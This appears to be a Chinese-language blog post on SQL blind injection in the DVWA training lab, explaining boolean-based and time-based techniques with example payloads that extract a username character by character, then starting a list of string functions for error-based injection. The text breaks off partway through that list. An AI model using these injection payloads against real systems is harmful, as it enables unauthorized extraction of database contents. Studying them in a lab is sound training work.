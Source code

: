 ```yaml
---
layout:     post
title:      dvwa之sql盲注
subtitle:   dvwa的sql盲注
date:       2020-11-17
author:     YY——阳阳
header-img: img/post/1.jpg
catalog: true
tags:
    - dvwa
    - sql注入
---
```

## 前言
sql 盲注是对于那些页面没有回显的错误，只能依靠自己的经验去一点一点猜测，这就比较耗费时间了。
<br>如果数据库运行返回结果时只反馈对错不会返回数据库当中的信息，此时可以采用逻辑判断是否正确的盲注来获取信息
> 1.布尔盲注。某些查询是不需要返回结果的，金判断查询语句是否正确执行，所以其返回可以看做一个布尔值，正常显示为true，报错或是其他不正常显示为false.
```php
SELECT userid FROM member WHERE u_name=$name AND u_pass=$pass;
    注入语句
    name=-1' and (select mid(u_name,1,1) from member where userid=1)='a' 
    name=-1' and (select mid(u_name,2,1) from member where userid=1)='d' 
    name=-1' and (select mid(u_name,3,1) from member where userid=1)='m' 
    name=-1' and (select mid(u_name,4,1) from member where userid=1)='i’
    name=-1' and (select mid(u_name,5,1) from member where userid=1)='n'
```

> 2.时间盲注。布尔盲注的关键字符带不进去，这时候可以使用sleep来进行时间盲注，取页面执行时间（结束时间-开始时间）来判断sleep函数是否正常执行，所以其是否正常执行可以看做一个布尔值，正常显示为true，报错或是其他不正常显示为false
```php
查询语句

 SELECT userid FROM member WHERE u_name=$name AND u_pass=$pass;
注入语句

    name=-1' and (select mid(u_name,1,1) from member where userid=1)='a' and (select sleep(3)) 
    name=-1' and (select mid(u_name,2,1) from member where userid=1)='d' and (select sleep(3)) 
    name=-1' and (select mid(u_name,3,1) from member where userid=1)='m' and (select sleep(3)) 
    name=-1' and (select mid(u_name,4,1) from member where userid=1)='i' and (select sleep(3)) 
    name=-1' and (select mid(u_name,5,1) from member where userid=1)='n' and (select sleep(3)
```
> 3.报错型盲注。
> 常见报错注入函数<br>
left(a,b)从左侧截取 a 的前 b 位:left(database(),1)>'s' substr(a,b,c)从 b 位置开始， 截取字符串 a 的 c 长度。 ascii() 将某个字符转换为 ascii 值:ascii(substr(user),1,1))=101# mid(a,b,c)从位置 b 开始， 截取 a 字符串的 c 位: